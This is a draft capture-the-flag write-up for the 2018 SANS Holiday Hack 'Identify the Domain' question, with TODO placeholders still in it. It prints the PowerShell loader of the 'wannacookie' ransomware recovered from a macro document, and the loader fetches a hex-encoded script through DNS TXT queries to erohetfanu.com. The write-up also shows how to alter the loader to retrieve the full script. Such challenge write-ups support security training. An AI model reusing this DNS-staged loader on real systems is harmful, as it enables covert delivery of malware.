 Question 10: Identify the Domain
================================

| After completing the prior question, Alabaster gives you a document he suspects downloads the malware. What is the domain name the malware in the document downloads from?

Answer: *erohetfanu.com*

Solution
--------

To solve this challenge we decided to analyse the malware and determine where it downloads from.

TODO: Insert text from Alabaster with the instructions

https://www.holidayhackchallenge.com/2018/challenges/CHOCOLATE_CHIP_COOKIE_RECIPE.zip

Environment
----------
The environment we used to analyse the document was a virtual machine with the Kali Linux 2018.4 operating system. 

.. note::
  Kali Linux 2018.4 had an issue unarchiving the document from the .zip file using the **unzip** application. In turn, the **olevba** application also couldn't analyse the document while it was still within the zip archive. We solved this issue by extracting the ``CHOCOLATE_CHIP_COOKIE_RECIPE.docm`` file from the zip archive using the **7z** application.



After downloading the zip file we extracted the ``CHOCOLATE_CHIP_COOKIE_RECIPE.docm`` file.

We extracted the ``CHOCOLATE_CHIP_COOKIE_RECIPE.docm`` file from the extracted zip file using 7z.

.. note::
  We were forced to extract the file because the default unzip program in operating system we were using could not support the encryption method. This is a known issue. 


.. tip::
 We found the following hint from Alabaster Snowball to be useful:
 
 **wannacookie.min.ps1**? I wonder if there is a non-minified version? If so, it may be easier to read and give us more information and maybe source comments?

To utilise this hint we started with the following wannacookie loader code.

TODO: How did we obtain this code?

.. code-block:: PowerShell
  :linenos:
  :emphasize-lines: 6
  
  function H2A($a) {
    $o
    $a -split '(..)' | ? { $_ }  | forEach {[char]([convert]::toint16($_,16))} | forEach {$o = $o + $_}
        return $o
    }
    $f = "77616E6E61636F6F6B69652E6D696E2E707331"
    $h = ""
    foreach ($i in 0..([convert]::ToInt32((Resolve-DnsName -Server erohetfanu.com -Name "$f.erohetfanu.com" -Type TXT).strings, 10)-1)) {
        $h += (Resolve-DnsName -Server erohetfanu.com -Name "$i.$f.erohetfanu.com" -Type TXT).strings
    }
    ($(H2A $h | Out-string))



We need to modify line 6 in the above code. We can perform a simple HEX to ASCII conversion to obtain ``wannacookie.min.ps1`` from ``77616E6E61636F6F6B69652E6D696E2E707331``.

Utilising the hint, we replace ``wannacookie.min.ps1`` with ``wannacookie.ps1``. Line 6 in the above code then becomes:

.. code-block:: PowerShell
  :lineno-start: 6
  :emphasize-lines: 1

  $f = "77616E6E61636F6F6B69652E707331"
